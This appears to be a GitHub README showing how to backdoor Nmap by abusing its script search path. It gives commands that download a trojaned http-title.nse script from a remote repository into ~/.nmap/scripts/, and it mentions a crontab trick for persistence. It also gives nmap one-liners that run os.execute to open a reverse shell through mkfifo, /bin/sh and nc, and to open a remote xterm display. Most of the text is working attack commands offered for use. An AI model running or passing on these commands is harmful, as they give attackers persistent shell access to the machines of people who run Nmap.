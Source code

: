 Creating backdoors with Nmap Script Engine
======================

"*...Absolute names are used directly. Relative paths are looked for in the scripts of each of the following places...*"

**Video**

<a href="http://www.youtube.com/watch?feature=player_embedded&v=bPaCfKc4Ow4" target="_blank"><img src="http://img.youtube.com/vi/bPaCfKc4Ow4/0.jpg" alt="Abusing nmap NSE search path" width="480" height="360" border="10" /></a>

**Exploit**
```shell-session

mkdir -p ~/.nmap/scripts/
cd ~/.nmap/scripts/
curl -O 'https://raw.githubusercontent.com/ulissescastro/linux-native-backdoors/master/nmap/http-title.nse'

```

You can use whatever payload you want to exploit, using crontab trick to demo one of many ways how can be harmful.


**Nmap command execution oneliner**

nmap --script <(echo "os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 8080 >/tmp/f')")

nmap --script <(echo "os.execute('xterm -display 127.0.0.1:1')")


